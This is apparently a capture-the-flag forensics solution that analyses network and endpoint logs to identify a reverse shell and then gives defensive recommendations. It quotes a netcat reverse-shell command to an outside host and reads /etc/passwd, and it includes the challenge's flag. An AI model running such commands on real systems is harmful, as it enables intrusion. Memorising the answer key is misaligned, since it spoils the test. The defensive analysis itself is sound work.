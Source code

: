 # Identification - Solution

## Task
Analyze the network and endpoint logs to identify malicious activity.

---

## Analysis

### Network Logs (`traffic.pcap`)
The network logs reveal:
1. **Suspicious Connection**:
   - Source: `192.168.1.100` (compromised machine).
   - Destination: `203.0.113.5` (attacker’s C2 server).
   - Port: `4444` (commonly used by reverse shells).

2. **Command-and-Control (C2) Activity**:
   - Commands executed remotely:
     - `whoami` → Reveals attacker is running commands as `root`.
     - `cat /etc/passwd` → Shows the attacker accessed sensitive files.

---

### Endpoint Logs (`security_events.log`)
The endpoint logs reveal:
1. **Reverse Shell Execution**:
   ```plaintext
   [2024-11-18 10:11:05] Process Created: /bin/bash -c "nc -e /bin/bash 203.0.113.5 4444"
   ```
   - The attacker used `nc` (Netcat) to establish a reverse shell to the C2 server.

2. **Reconnaissance**:
   ```plaintext
   [2024-11-18 10:11:06] Process Executed: /usr/bin/whoami
   [2024-11-18 10:11:07] File Read: /etc/passwd
   ```
   - These logs show the attacker gathering information about the system.

---

## Flag
The malicious activity identified involves unauthorized remote access via a reverse shell.

**Flag**: `flag{reverse_shell_detected}`

---

## Recommendations

To mitigate and prevent this type of attack:

### 1. Network Monitoring
- Block unauthorized ports (e.g., `4444`) at the firewall.
- Use IDS/IPS tools (e.g., Snort, Suricata) to detect and alert on suspicious traffic patterns.

### 2. Endpoint Security
- Monitor process creation logs for suspicious commands like `nc` or `bash`.
- Disable potentially dangerous utilities like Netcat on production systems unless required.

### 3. Access Controls
- Implement the principle of least privilege to limit access to sensitive files like `/etc/passwd`.

### 4. Centralized Logging
- Aggregate and correlate network and endpoint logs in a SIEM for faster detection of coordinated attacks.

### 5. Incident Response
- Immediately isolate compromised systems.
- Investigate and terminate unauthorized connections.
- Review all accounts and services for unauthorized changes.

---

## Summary
The attacker’s activity included:
1. Establishing a reverse shell to `203.0.113.5` via port `4444`.
2. Executing reconnaissance commands (`whoami`, `cat /etc/passwd`).
3. Gaining full control of the system as `root`.

By analyzing network and endpoint logs, this activity can be detected and mitigated effectively.
```

